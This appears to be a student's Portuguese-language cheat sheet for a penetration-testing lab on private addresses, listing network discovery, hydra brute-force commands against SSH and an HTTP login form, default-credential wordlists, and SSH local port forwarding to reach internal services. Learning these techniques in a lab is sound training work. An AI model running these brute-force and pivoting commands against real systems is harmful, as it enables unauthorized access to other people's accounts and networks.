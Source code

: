 # COMANDOS E PASSOS IMPORTANTES

- verificar ip

  `ip -br -c a`

- verificar dispositivos conectados na mesma rede

  `netdiscover -i eth0 -P -r 192.168.56.0/24`

- verificar portas abertas

  `netstat -nltp`

  ## Caminhos de pastas importantes

  /usr/share/wordlists/metasploit

  http_default_user.txt

  http_default_pass.txt

  ## Possivel passo a passo

  Entrar no servidor:

  por meio de usuário dado e ataque de força bruta

  - `hydra -L user.txt -P pass.txt ssh://192.168.10.10`

  ataque de força bruta sem nada

  - `hydra -L pass_user_injection.txt -P pass_user_injections.txt 192.168.100.20 http-post-form "/login.php:login=ÛSER^&senha=^PASS^:F=incorreto" -o found2.txt -f`

  Depois de descobrir fazer tunelamento ssh

  - `ssh -p 2222 aluno@192.168.100.20`

  Verificar serviços e portas abertas

  - serviço -> colocar ip do servidor no navegador
 
  - portas -> `netstat - nltp`

  - inspecionar página para ver se não encontra nada
 
  Se tiver outra porta aberta sera necessário fazer redirecionamento de portas local, então sair do servidor e:

  - `ssh -L portaLocal:localhost:portaRemota aluno@192.168.100.20`
 
    Depois de acessar a proxima porta tentar acessar o outro serviço colocando no navegador:

  - `localhost:portaRemota`

  OBS:
  - Tomar cuidado para que o proxy não esteja ligado
  - Tomar cuidado para não usar a mesma porta de um serviço ja usado
  
